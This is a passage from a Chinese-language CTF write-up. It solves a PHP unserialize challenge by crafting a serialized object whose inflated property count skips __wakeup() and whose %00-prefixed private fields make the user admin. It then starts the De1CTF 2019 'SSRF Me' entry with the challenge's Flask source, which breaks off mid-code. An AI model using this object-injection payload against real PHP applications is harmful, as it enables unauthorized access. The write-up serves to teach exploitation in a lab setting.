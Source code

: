 ```php
            die();

            
        }
    }
}
index.php:
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```

当username==="admin"时可以拿到flag。

得到：`O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}`

反序列化的时候会首先执行`__wakeup()`魔术方法，所以要跳过`__wakeup()`去执行`__destruct()`

在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行。

因此：`O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}`

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上0的前缀。字符串长度也包括所加前缀的长度

因此：`O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

# 0x2E.[De1CTF 2019]SSRF Me

提示说flag在./flag.txt中。

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
```